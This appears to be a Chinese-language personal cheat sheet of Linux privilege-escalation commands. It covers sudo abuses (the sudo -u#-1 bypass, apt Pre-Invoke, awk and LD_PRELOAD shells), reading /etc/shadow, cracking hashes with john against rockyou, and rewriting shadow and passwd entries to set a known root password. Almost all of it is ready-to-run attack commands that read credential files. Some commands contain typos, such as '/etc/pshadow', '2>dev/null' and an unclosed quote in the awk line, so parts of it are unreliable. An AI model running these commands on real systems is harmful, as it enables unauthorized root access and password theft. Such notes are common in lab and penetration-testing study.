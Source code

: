 ### 查看当前用户
    cl

---
### 查看当前目录
    pwd

---

## sudo提权
### 枚举
    sudo -l
### 切换用户
    sudo -u jack /bin/bash
    sudo -u#10000 /bin/bash
### 修改交互更好的bash环境
    python -c "import pty;pty.spawn('/bin/bash')"
### 搜索
    grep -R -i pass /home/* 2>dev/null
### sudo -u提权
    sudo -V | grep version 
    'Sudo version 1.7.4p4'
    sudo -u#-1 /bin/bash
### sudo apt(apt-get)提权
    sudo apt update -o APT::Update::Pre-Invoke::=/bin/bash
### sudo apache2提权
    sudo apache2 -f /etc/shadow
    vim shadow_root
    sudo john shadow_root --wordlist=/usr/share/wordlists/rockyou.txt
### sudo ash提权
    sudo ash
### sudo awk提权
    sudo awk 'BEGIN {system("/bin/bash)}'
### sudo环境变量提权
    'env_reset,env_keep+=LD_PRELOAD'
    vim 共享库
    编译
    sudo LD_PRELOAD=/home/user/共享库 find
### 提权大全
    https://gtfobins.github.io/
---
## 可读可写shadow和passwd文件利用提权
- 可读shadow
1. 查看权限
	`ls -liah /etc/pshadow`
	![[Pasted image 20250505181903.png]]
2. 读取shadow文件
	`cat /etc/shadow`
3. 提取特殊用户
	`cat /etc/shadow | grep ':\$'
4. john破解
	 `sudo john hash/hash.lst --wordlist=/usr/share/wordlists/rockyou.txt`

- 可写shadow
1. 查看权限
	`ls -liah /etc/shadow`
2. 备份
	`cp /etc/shadow /tmp/shadow.bak`
3. mkpasswd
	`mkpasswd -m sha-512 admin`
4. vim修改密码

- 可写passwd
1. 查看权限
	`ls -liah /etc/passwd`
2. 读取passwd文件
	`cat /etc/passwd`
3. `openssl passwd admin`
4. ``cp /etc/passwd /tmp/passwd.bak``
5. 修改x
	![[Pasted image 20250505221045.png]]